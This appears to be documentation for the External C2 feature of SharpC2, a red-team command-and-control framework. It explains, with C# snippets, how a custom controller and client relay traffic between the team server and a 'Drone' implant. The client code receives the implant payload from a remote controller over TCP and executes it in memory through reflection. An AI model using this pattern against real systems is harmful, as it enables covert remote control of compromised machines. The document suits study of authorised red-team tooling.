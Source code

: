 External C2
===========

External C2 allow a 3rd application to act as a communication layer between the SharpC2 team server and Drone payload.  This allows users to implement completely custom C2 protocols without having to modify the core framework.

.. graphviz::

   digraph foo {
    rankdir="LR";
    node [shape=box];

    teamserver [label="Team Server"];
    controller [label="Controller"];
    client [label="Client"];
    drone [label="Drone"];

    teamserver -> controller [label="C2 Frames"];
    controller -> client [label="Custom C2"];
    client -> drone [label="C2 Frames"];

    controller -> teamserver;
    client -> controller;
    drone -> client
   }


|

ExternalC2.Net
--------------

The SharpC2 solution contains a .NET library to help simplify the process of implementing ExternalC2.  Example Controller and Client projects are also provided.


3rd Party Controller
--------------------

The controller can leverage the ``ExternalC2.Net.Server`` namespace.  It must instantiate a new ``ServerController`` class with the IP address and port of the ExternalC2 handler.  Multiple instances can be used to handle more than one incoming connection, which can be run in separate threads.


.. code-block:: c#

    var controller = new ServerController(target, port);
    _ = Task.Run(async () => await HandleClient(controller, client));


The ``ServerController`` provides an event that is fired when a downstream frame is received from the team server.  In most cases, you would just want to forward this straight to your client.  Run the ``Start`` method to instruct the ``ServerController`` to begin reading from the team server.

.. code-block:: c#

    controller.OnDataFromTeamServer += async delegate(byte[] data)
    {
        // send data received from the team server to the client
        await client.WriteData(data);
    };

    // run the controller
    _ = controller.Start();

Upon connecting to the team server, it will instantly provide a Drone payload in the form of a .NET assembly.  Whenever you have upstream data to give to the team server, use the ``SendData`` method.

.. code-block:: c#

    // read from the client
    while (client.Connected)
    {
        if (client.DataAvailable())
        {
            // this is upstream from the drone
            var upstream = await client.ReadData();
                
            // give it to the team server
            await controller.SendData(upstream);
        }

        await Task.Delay(100);
    }

3rd Party Client
----------------

The client can leverage the ``ExternalC2.Net.Client`` namespace.  It should initiate communication with your 3rd controller and immediately begin reading from it to receive the Drone payload.

.. code-block:: c#

    // connect to controller
    var controller = new TcpClient();
    await controller.ConnectAsync(target, port);
        
    // read payload
    var payload = await controller.ReadData();


Once the payload has been read, instantiate a new instance of ``DroneController``.  This also provides an event that is fired when an upstream frame is sent from the Drone.  This should just be sent up to your controller.

.. code-block:: c#

    // create drone controller
    var drone = new DroneController();

    // event is fired whenever the drone sends upstream data
    drone.OnDataFromDrone += async delegate(byte[] bytes)
    {
        // send to controller
        await controller.WriteData(bytes);
    };

The Drone payload can then be executed by calling the ``ExecutePayload`` method.  This will load the Drone and attempt to connect to inbound and outbound queues.  This is done entirely using reflection (no named pipes or TCP connections, etc).

The client can then listen for downstream data from the controller and pass it to the Drone using the ``SendDrone`` method.

.. code-block:: c#

    while (controller.Connected)
    {
        if (controller.DataAvailable())
        {
            // read from controller
            var downstream = await controller.ReadData();
                
            // send it to the drone
            drone.SendDrone(downstream);
        }

        await Task.Delay(100);
    }